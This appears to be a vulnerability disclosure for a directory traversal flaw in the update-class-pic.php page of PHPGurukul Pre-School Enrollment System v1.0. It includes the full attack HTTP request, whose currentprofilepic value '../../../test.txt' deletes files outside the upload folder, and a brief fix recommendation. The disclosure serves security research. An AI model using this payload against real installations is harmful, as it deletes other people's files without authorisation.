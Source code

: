 # PHPGurukul Pre-School Enrollment System Project directory traversal vulnerability-3(update-class-pic.php)

**PHPGurukul  Pre-School Enrollment System Project introduce**
   
   PHPGurukul Pre-School Enrollment System Project is a web-based pre-school enrollment system by PHPGurukul.   

**Vulnerability description**

   There is a security vulnerability in PHPGurukul Pre-School Enrollment System Project v1.0. The vulnerability is caused by  directory traversal vulnerability, which allows remote attackers to traverse directories and delete traversed files.

 PHPGurukul Project address

   
   https://phpgurukul.com/pre-school-enrollment-system-using-php-and-mysql/

   During the code audit, it was found that there was a problem with currentprofilepic in the update-class-pic.php file   
   ![1](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/1.png)   
   After analyzing the code, we tried to exploit the vulnerability
   
   **Loophole principle**
   
   Log in to the system backend management system
     
   ![2](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot/2.png)
      
   Find the vulnerable functionality in the update-class-pic.php page, classes-manage-Edit Class-Update Class Pic-Update Teacher Profile Pic
  
   ![3](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/2.png)
   ![4](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/3.png)
   ![5](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/4.png)
  
   Intercept the data packet and find the problematic parameter currentprofilepic
   
   ![6](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/5.png)

   Transformed into attack payload    

    
    POST /Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7 HTTP/1.1
    Host: localhost
    Cookie: PHPSESSID=qqnj1t0sdqqbv8qh5jrevaaln8
    Content-Type: multipart/form-data; boundary=----WebKitFormBoundarywWObpfrtssMBATrx
    Accept-Language: zh-CN,zh;q=0.9
    Referer: http://localhost/Pre-School-Enrollment-System-PHP/preschool/admin/update-class-pic.php?cid=7
    Upgrade-Insecure-Requests: 1
    Cache-Control: max-age=0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
    Sec-Fetch-User: ?1
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
    Origin: http://localhost
    sec-ch-ua-mobile: ?0
    sec-ch-ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
    sec-ch-ua-platform: "Windows"
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Dest: document
    Accept-Encoding: gzip, deflate, br, zstd
    Content-Length: 5637583

    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="currentprofilepic"

    ../../../test.txt
    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="teacherpic"; filename="804a28a9c5be300aafa9f83527956d13.jpeg"
    Content-Type: image/jpeg


    ------WebKitFormBoundarywWObpfrtssMBATrx
    Content-Disposition: form-data; name="submit"


    ------WebKitFormBoundarywWObpfrtssMBATrx--

   Create test.txt test file in  D:\phpstudy_pro\WWW\Pre-School-Enrollment-System-PHP
      ![7](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/7.png)

   Send payload, test.txt file has been deleted   
   ![8](https://github.com/baixiaobi/Pre-School-/blob/main/screenshot2/8.png)   
   This directory traversal vulnerability can cause the traversed files to be deleted.

 **The affected version**   
 PHPGurukul Pre-School Enrollment System Project v1.0    
 Strictly validate and filter all paths entered by users to ensure that only specified files or directories are allowed to be accessed. Regular expressions can be used to restrict the path format.
 
   
